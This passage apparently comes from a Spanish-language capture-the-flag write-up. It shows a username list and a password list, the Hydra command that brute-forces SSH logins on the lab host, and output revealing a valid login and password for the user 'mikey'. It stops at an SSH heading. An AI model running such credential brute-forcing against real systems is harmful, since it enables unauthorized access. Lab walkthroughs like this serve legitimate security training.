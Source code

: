 ## Hydra

> users.txt

```
zero_day
hexhunter
bytebandit
codebreaker
trojanhorse
backdoor_bandit
mikey
```

En el listado de usuarios añadi `mikey` ya que es el unico correo que es diferente al del usuario propio.

> pass.txt

```
Zer0D@yH@ck
H3xHunt3r!
Byt3B@nd!t123
C0d3Br3@k!
Tr0j@nH0rse!
aze
mYd4rks1dEisH3re
```

Teniendo los listados vamos a utilizarlos de esta forma:

```shell
hydra -L users.txt -P pass.txt ssh://<IP> -t 64 -I
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-05 06:17:20
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 49 tasks per 1 server, overall 49 tasks, 49 login tries (l:7/p:7), ~1 try per task
[DATA] attacking ssh://10.10.11.85:22/
[22][ssh] host: 10.10.11.85   login: mikey   password: mYd4rks1dEisH3re
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-10-05 06:17:28
```

Veremos que ha funcionado, por lo que vamos a entrar por `SSH`.

### SSH
